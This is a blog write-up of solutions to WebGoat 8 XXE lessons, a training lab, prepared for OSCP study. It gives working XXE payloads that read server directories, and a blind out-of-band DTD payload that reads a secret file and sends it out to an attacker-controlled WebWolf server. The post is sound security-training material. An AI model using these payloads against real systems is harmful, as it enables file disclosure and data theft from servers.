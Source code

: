 Title: Road to OSCP: WebGoat XXE challenges
Date: 2020-02-28
Category: OSCP
Tags: websec, webgoat, xxe
Summary: Solutions for WebGoat 8 XXE tasks
Status: published

#### Intro: simple xxe (as dubbed by authors)
We should abuse XXE vulnerability to list root directory content on the server.
The only entry point is a comment field under some poor cat's photo which got a hanger around his neck :)  
Upon clicking on submit button, client app makes a request with `Content-Type` header set to `application/xml` hence the request body contain XML payload.
It's not a sort of convoluted document, just a couple of tags:
```xml
<?xml version="1.0"?>
<comment>  
  <text>hi there lil cat</text>
</comment>
```


Solution is almost straightforward and based on previous section about XXE:
```
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY ex SYSTEM "file:/">]>
<comment>
  <text>&ex;</text>
</comment>
```

Result:
```json
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations. You have successfully completed the assignment.",
  "output" : null,
  "assignment" : "SimpleXXE"
}
```

Here we instruct XML parser to include content of provided SYSTEM identifier that points to root directory.
It could be assumed that SYSTEM identifier means just an URI to some kind of resource, theoretically it could use any scheme such as http or ftp, it our case we need a local directory content hence scheme is `file`.  
Omitted trailing slashes does not seem to have any effect in that case, it will work either with `file:///` or with `file:/`.
As far as I know one constraint to this kind of identifiers is that they should not contain URI fragments - parts that go after a sharp (#).
For example `http://foo.bar/?a=b#baz` is fragmented and `http://foo.bar/?a=b` is not.

----------------------------------------------

#### Modern REST framework
We provided with exact same form as in the previous example but with other endpoint used. This form send JSON data when adding a comment, but even the URI implies that not the only JSON could be processed at the back-end :)  
As usual, we have to use intercepting proxy (or browser's developer tools) to tamper the request and perform XXE. But we need to change `Content-Type` header value from `application/json` to `application/xml`.
This will allow us to perform attack that very similar to previous one. A little caveat here could is that we do not know what elements should be contained in the XML document, but application proudfully give us an useful
exception if we provide something unexpected for it:
```json
{
  "lessonCompleted" : false,
  "feedback" : "You are posting XML but there is no XXE attack performed",
  "output" : "<SNIP>...Expected elements are <{}comment>]...<SNIP>"
}
```

Expected input is pretty much like in the previous assignment:
```xml
<!DOCTYPE foo [<!ENTITY bar SYSTEM "file:/">]>
<comment>
  <text>&bar;</text>
</comment>
```

----------------------------------------------

#### Blind XXE assignment
Again, the exact same form, but we need to exfiltrate local file content from the server leveraging blind XXE vulnerability. From the previous lesson it's clear that we have to use some server to host our malicious DTD which will be included in payload.
In case of WebGoat 8 it's a good choice to use WebWolf again. It has a request logging capability and provide us with ability to upload arbitrary files for further use.  
Let's check whether the application is vulnerable. Issue request with body similar to this:
```xml
<?xml version="1.0"?>
<!DOCTYPE e [
  <!ENTITY foo SYSTEM "http://localhost:9090/pwned.dtd">
]>
<comment>
  <text>&foo;</text>
</comment>
```
Hooray, we've got a request in WebWolf log! It's indeed vulnerable, now we have to exfiltrate secret key from the server. We may do it using OOB (out-of-band) channel, in our case simplest is the request URI itself. So we need to construct such an entity that will reference URI like `http://localhost:9090/<SECRET_FILE_CONTENT>`. It's not that hard, we have to do three steps:  

1. Construct DTD file which include secret file and declare entity with crafted URI based on this content
2. Upload that DTD to controlled server which attacked application can access. In our case it's WebWolf
3. Craft or tamper comment posting request so that we will include DTD from our server which afterwards will try to include another one exfiltrating file content

Time to practice. Little bit of googling and we've got a malicious DTD:
```xml
<!ENTITY % data SYSTEM "file:///home/webgoat/.webgoat-v8.0.0-SNAPSHOT/XXE/secret.txt">
<!ENTITY % p "<!ENTITY exf SYSTEM 'http://localhost:9090/%data;'>">
```
Pretty straightforward, `data` entity points to local file (got path from the assignment definition) and `p` entity points to inexistent web resource which URI contains acquired file content. Second step is quite simple - upload it to WebWolf and it will provide you with the link. In my case I uploaded it as `pwndtd.dtd` and link was `http://localhost:9090/files/theuser/pwndtd.dtd`.  
Now we need to craft proper request. As earlier, use Burp/ZAP/browser devtools or whatever you want.  
Final request will look like this:
```xml
<?xml version="1.0"?>
<!DOCTYPE e [
  <!ENTITY % bar SYSTEM "http://localhost:9090/files/theuser/pwndtd.dtd"> %bar; %p;
]>
<comment>
  <text>&exf;</text>
</comment>
```
##### Explanation:
We declared external entity that points to our uploaded DTD. This DTD contain declaration for `data`, `p` and `exf` entities, of which we reference here two - `p` and `exf`.
All the entities except `exf` are [parameter entities](https://dtd.nlm.nih.gov/publishing/tag-library/2.3/n-xt60.html) which could be referenced in `DOCTYPE` definition. We reference `p` which contain definition for `exp` that uses `data` parameter entity that reads secret file. May sound intimidating, but it's not that hard. All we need to do is to use `exf` entity to get file content.  
After all WebWolf will show that there was a request to `http://localhost:9090/WebGoat%208.0%20rocks...%20(KOQWMLvnhf)`, urldecode the path and use 'WebGoat 8.0 rocks... (KOQWMLvnhf)' phrase to complete the assignment.

